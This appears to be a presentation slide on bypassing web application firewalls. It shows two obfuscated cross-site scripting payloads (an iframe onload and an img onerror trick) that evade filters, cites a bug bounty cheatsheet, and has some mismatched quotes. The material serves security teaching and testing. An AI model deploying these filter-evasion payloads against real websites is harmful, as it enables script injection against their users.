

# Bypassing web application firewalls
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``”’;>
<img/src=q onerror='new Function`al\ert\`1\``’>
Source: https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md